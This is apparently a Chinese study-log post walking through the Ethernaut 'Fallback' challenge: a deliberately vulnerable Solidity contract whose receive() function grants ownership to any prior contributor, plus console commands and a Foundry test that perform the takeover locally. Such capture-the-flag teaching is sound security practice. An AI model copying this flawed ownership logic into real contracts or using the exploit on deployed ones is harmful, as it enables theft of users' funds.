



参加残酷共学打卡活动，记录一下这段时间的收获

## 目标

获取合约的控制权

## 漏洞合约

先来看漏洞合约本身，简单概括其核心功能：

1. **constructor**: 合约部署者在部署时赞助了 1000 个ether
2. **contribute**: 用户可以调用 contribute 函数对活动合约进行赞助，当赞助额度累计大于一开始的合约部署者时，合约拥有者更新为最大赞助者
3. **withdraw:** 由函数修饰符限制，只有合约拥有者能提现所有赞助
4. **receive:** 合约收到转账时触发的处理函数，当用户转给合约的赞助大于0，且在合约中记录的赞助大于0时，合约拥有者更新为该调用者

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint256) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```

## 思路

在合约中，可以看到，更新 owner 的操作只有两个地方：

1. contribute: 需要比最高赞助商更高，正常获取合约控制权，这需要至少 1000 ether
2. receive: 只需要余额大于0，且给合约赞助过即可

那么，很显然，我们需要想办法触发 receive 函数，我们先来看 receive 函数特性

```
           receive ETH
              |
         msg.data is empty?
            /  \\
          yse    no
          /      \\
has receive()?   fallback()
        / \\
       yes  no
      /     \\
receive()   fallback()
```

我们可以看到，只有在不存在 msg.data，只发送 eth 时会触发 receive 函数。

## Remix 测试

首先我们在 remix 中部署这个合约， 然后交互

1. 部署合约，此时的 owner 为部署者地址

   

2. 使用第二个地址调用 contribute 函数赞助,这里赞助值不能高于0.001ether,也就是1 Finey

   

3. 查看当前的赞助余额大于 0

   

4. 发送 eth

   

5. 调用，注意，这里，calldata 即为要发送的 msg.data 值，这里不可以填

   查看合约 owner，成功改变

   

## console

控制台交互：

1. 赞助

```
await contract.contribute({value:1})
```

1. 发送ethe

```solidity
await contract.sendTransaction({value:1})
```

## foundry 复现

### 1. 测试脚本

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";
import {Fallback} from "../src/Fallback.sol";

contract FallbackTest is Test {
    Fallback public fallbackDemo;
    address public owner;
    address attacker = vm.addr(1);

    function setUp() external {
        fallbackDemo = new Fallback();
        console.log(1, fallbackDemo.owner());
        payable(attacker).call{value: 1 ether}("");
    }

    function test_receive() public {
        vm.startPrank(attacker);
        fallbackDemo.contribute{value: 0.0001 ether}();
        console.log(2, fallbackDemo.owner());
        address payable addr = payable(address(fallbackDemo));
        (bool success,) = addr.call{value: 0.0001 ether}("");
        console.log(3, fallbackDemo.owner());
        assertEq(fallbackDemo.owner(), attacker, "attack failed");
    }
}
```

### 2. 要点

这里主要涉及三个部分：

1. **startPrank 作弊码：**

   作弊码是 Foundry 特有的属性，由于 Foundry 所有脚本采用 Solidity 交互，因此，Foundry 内置了很多可供 Solidity 以外操作的作弊码，比如更改区块号，切换调用用户身份等。这里的 `startPrank` 就可以用于切换用户身份

   ```solidity
   function startPrank(address) external;
   function startPrank(address sender, address origin) external;
   ```

   这个函数指，从调用开始，直到遇到 `stopPrank` ，否则其后的调用者或者 tx.origin 都会是指定地址

   当然，对应的，其实也可以使用 **`prank`**

   ```solidity
   function prank(address) external;
   function prank(address sender, address origin) external;
   ```

   这个作弊码，只会改变其后的一次调用

2. **addr:**

   ```solidity
   function addr(uint256 privateKey) external returns (address);
   ```

   这个作弊码，实际上相当于可以根据你输入私钥生成地址，我们测试中将 1 作为私钥生成了对应地址

3. **call 函数的使用：**

   Solidity 中，向指定地址发送 eth 可以使用三种函数 `transfer`、`call`、`send`

   ```solidity
   // {value:} 要发送的数量
   // ("") msg.data，这里为空
   payable(address).call{value: 0.0001 ether}("");
   ```

   <aside> 💡


   实际上， **`call`** 不仅可以发送 eth，还能通过 msg.data 的形式去实现函数调用

   </aside>

### 3. 测试

终端输入

```solidity
forge test --match-path test/Fallback.t.sol -vvvv
```

可以看到，最终在攻击后打印出的 owner 和前两次打印值不一样

